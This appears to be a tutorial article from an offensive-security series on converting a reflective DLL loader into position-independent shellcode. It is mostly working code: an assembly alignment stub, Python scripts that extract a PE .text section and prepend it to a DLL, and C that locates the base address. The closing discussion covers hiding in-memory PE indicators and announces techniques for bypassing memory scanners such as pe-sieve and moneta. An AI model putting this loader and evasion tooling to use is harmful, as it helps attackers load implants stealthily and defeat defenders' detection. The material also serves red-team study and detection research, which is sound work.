


# Steps

- Transforming Reflective Loader for PIC code
- Extract text section from Reflective Loader
- Attach Reflective Loader shellcode before PE

## Transforming Reflective Loader for PIC

We need to do the same as we did in ... and ..., we will use the Stack alignment as "main" to call our Reflective Function.

```
section .text

extern OblivLdr

WinMain:                         
    push rsi                      
    mov  rsi, rsp                 
    and  rsp, 0xFFFFFFFFFFFFFFF0  
    sub  rsp, 0x20                
    call ReflectiveLdr                     
    mov  rsp, rsi                 
    pop  rsi                      
    ret        
```

## Extract text section from Reflective Loader

I will use the same python script that was used in the ... serie, to extract the text section

```python
#!/usr/bin/env python3
# -*- coding:utf-8 -*-

import pefile
import argparse

# Credits: https://github.com/Cracked5pider

def main():
    try:

        parser = argparse.ArgumentParser( description = 'Extracts shellcode from a PE.' )
        parser.add_argument( '-f', required = True, help = 'Path to the source executable', type = str )
        parser.add_argument( '-o', required = True, help = 'Path to store the output raw binary', type = str )
        option = parser.parse_args()

        PeExe = pefile.PE( option.f )
        file = open( option.o, 'wb+' )

        for section in PeExe.sections:

            if section.Name.replace( b'\x00', b'' ).decode( 'utf-8' ) == ".text":
                
                print( f"[*] found shellcode [size: {len(section.get_data())} bytes]" )


                file.write( section.get_data() )

                break

        file.close()

    except Exception as e:
        print( '[!] error: {}'.format( e ) )

    return

if __name__ in '__main__':
    main()
```

## Attach Reflective Loader shellcode before the PE

The Python script was changed to receive the Reflective Loader and the DLL and thus generate an output with the dll's shellcode

```python
#!/usr/bin/env python3

import argparse
import pefile

def read_file(file_path):
    with open(file_path, 'rb') as file:
        return file.read()

def write_file(file_path, data):
    with open(file_path, 'wb') as file:
        file.write(data)

def extract_text_section(pe_path):
    pe = pefile.PE(pe_path)
    for section in pe.sections:
        if section.Name.replace(b'\x00', b'').decode('utf-8') == ".text":
            print(f"[*] Found .text section [size: {len(section.get_data())} bytes]")
            return section.get_data()
    raise ValueError("No .text section found in the PE file.")

def insert_data_into_pe(bin_data, pe_path, output_path):
    pe_data = read_file(pe_path)
    new_data = bin_data + pe_data
    write_file(output_path, new_data)

def main():
    parser = argparse.ArgumentParser(description='Insert the .text section of a source PE file into the beginning of a destination PE file.')
    parser.add_argument('-r', '--reflectiveldr', required=True, help='Path to the source PE file')
    parser.add_argument('-d', '--dll', required=True, help='Path to the destination PE file')
    parser.add_argument('-o', '--output', required=True, help='Path to the output PE file')
    args = parser.parse_args()

    try:
        text_section_data = extract_text_section(args.reflectiveldr)
        insert_data_into_pe(text_section_data, args.dll, args.output)
        print(f"[*] Successfully inserted .text section into {args.output}")
    except Exception as e:
        print(f"[!] Error: {e}")

if __name__ == "__main__":
    main()
```

-----------

We have a problem to solve. The way we were using to find the base address will no longer work as the PE will not be on top of the allocated memory. Instead, our reflective function will occupy this position. Therefore, we need to change the approach.

I decided to get the return address via the reflective function. With this, we will be able to determine the base address, which will be the beginning of stack alignment. From there, we will add up the size of our shellcode.

```c
BOOL ReflectiveLdr( LPVOID lpParameter ) {

    LPVOID    DllAddr  = NULL;
    DWORD     dwOffset = 0x00;

	ULONG_PTR LibAddr = 0x00;

    asm volatile ("mov %0, rax"   : "=r" (LibAddr));
    asm volatile ("add %0, 0x800" : "+r" (LibAddr));
    
    //...rest of the code...
```

# Observations

I will compile a DLL that executes a MessageBox just for a brief explanation. We have a problem regarding Indicators of Compromise (IOCs) in memory in relation to the DLL shellcode. It will still have PE magic bytes, section names, and all PE data. I will show how it looks in a hexadecimal editor called ImHex.



You may think "I can simply encrypt the shellcode" this idea will not be as effective because to execute the shellcode it would be decrypted and could be caught at runtime easily by memory scans. We also cannot delete all information from the PE because we need specific information from the header to parse and execute reflective loading. What we can do is replace only data that we are not using, which are as follows


Source image: [x-force/defining-cobalt-strike-reflective-loader](https://securityintelligence.com/x-force/defining-cobalt-strike-reflective-loader/)


You can use other approaches like stomping/overloading to support the memory and we also apply a memory analysis evasion technique, in the next articles I will address this topic and bypass memory scans such as pe-sieve and moneta.
